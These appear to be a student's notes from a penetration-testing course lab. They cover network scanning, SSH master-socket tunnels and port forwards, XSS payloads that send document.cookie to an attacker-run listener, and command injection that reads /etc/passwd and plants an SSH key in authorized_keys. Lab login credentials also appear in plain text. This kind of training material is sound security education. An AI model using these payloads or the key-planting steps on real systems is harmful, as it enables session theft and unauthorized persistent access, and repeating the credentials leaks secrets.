 # Day 1 

https://vta.cybbh.space/horizon/project/


https://sec.cybbh.io/public/security/latest/index.html

CTFD Server: http://10.50.20.250:8000	
User: NIRI-505-M  
Pass: gVN5chrkxW0bym1 	

Gray host: 10.50.34.77


LinOps:

ssh -X student@10.50.22.235
password1



Penetration Testing:



Scanning and Reconnaissance:


Scrapping Data:




       1. Host Discovery
        ◦ Find hosts that are online
    2. Port Enumeration
        ◦ Find ports for each host that is online
    3. Port Interrogation
        ◦ Find what service is running on each open/available port
	netstat -natup

Scripts are stored in a subdirectory of the Nmap data directory by default:

/usr/share/nmap/scripts



Vulnerability and Exploitation Research:






Master Sockets:

All traffic sent through /tmp/gray file will be sent to the 10.50.34.77 IP address. 

	ssh -MS /tmp/gray student@10.50.34.77 

Dynamic Tunnel:

	ssh -S /tmp/gray gray -O forward -D 9050

Canceling a Dynamic Tunnel 

	ssh -S /tmp/gray gray -O cancel -D 9050

HOST DISCOVERY:

One-line ping-sweep

	for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" & ); done


Post Enumeration:

	proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.111,120

Enumeration nmap script: 

	proxychains nmap -v -sT -Pn -T4 --script=http-enum.nse 192.168.28.111 -p 80


Local Port Forward using master Socket:

	ssh -S /tmp/gray gray -O forward -L 41201:192.168.28.111:80


	ssh -S /tmp/gray gray -O forward -L 41202:192.168.28.111:2222

Master Socket through another Master Socket:

	ssh -MS /tmp/comrade comrade@127.0.0.1 -p 41202

# Day2 
## Web Exploitation (XSS)


 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" + document.cookie;</script>
HTTP Response Codes

    10X == Informational

    2XX == Success

    30X == Redirection

    4XX == Client Error

    5XX == Server Error




HTTP Fields

    User-Agent

    Referer

    Cookie

    Date

    Server

    Set-Cookie



WGET 

	wget -r -l2 -P /tmp ftp://ftpserver/
	wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' https://website
	wget --load-cookies cookies.txt -p https://website/interesting/article.php


# XSS Demos

Alert Script:

	<script>alert('XSS');</script>


Run on ops station:

	 python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

Run on the webserver to send cookies back to my page:
	
 	<script>document.location="http://10.50.22.235:8000/"+document.cookie;</script>


## Command injection 
* Find users home directory and type of shell.

		; whomai
	 	; cat../../../etc/passwd 
  


* Generate and ssh key

 	 	ssh-keygen -t rsa -b 4096
* Inject public key into website
* Make .ssh folder in home directory

		;ls -la /users/home/directory      #check if .ssh exists
		; mkdir /users/home/directory/.ssh   #make .ssh in users home folder if it does not exis

* Make authorized key file in .ssh

		 ; echo "your_public_key_here" > /users/home/directory/.ssh/authorized_keys


* Verify key has been uploaded successfully.

		 ; cat /users/home/directory/.ssh/authorized_keys

* ssh onto the box:

   		ssh user@ip_addr
  Shouldn't prompt for password. If it does, your wrong. 

* Authenticating with a private key that was found:

  		ssh -i user_rsa.priv user@ip

 * Webserver info is stored

		/var/www/html

